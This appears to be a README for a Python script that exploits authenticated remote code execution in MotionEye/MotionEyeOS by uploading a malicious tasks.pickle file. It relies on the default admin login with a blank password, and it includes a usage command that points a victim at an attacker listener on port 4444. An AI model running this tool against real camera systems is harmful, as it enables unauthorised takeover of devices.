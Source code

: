 # MotionEye/MotionEyeOS Authenticated RCE
A Python 3 script that uploads a tasks.pickle file that enables RCE in MotionEye. You need administrator credentials, so it should not be that big of a deal. Unfortunately, MotionEye/MotionEye tend to be ran with default credentials. 
Example:

main.py --victim 192.168.1.2 --attacker 192.168.1.3:4444

Where victim and attacker are in the form of ip:port, unless it is port 80. Then, the port can be excluded. This uses the default username of admin with a blank password. There are also CLI options for alternate usernames/passwords. Please see the code for more details. 

See https://www.pizzapower.me/2021/10/09/self-hosted-security-part-1-motioneye/ for more information. 
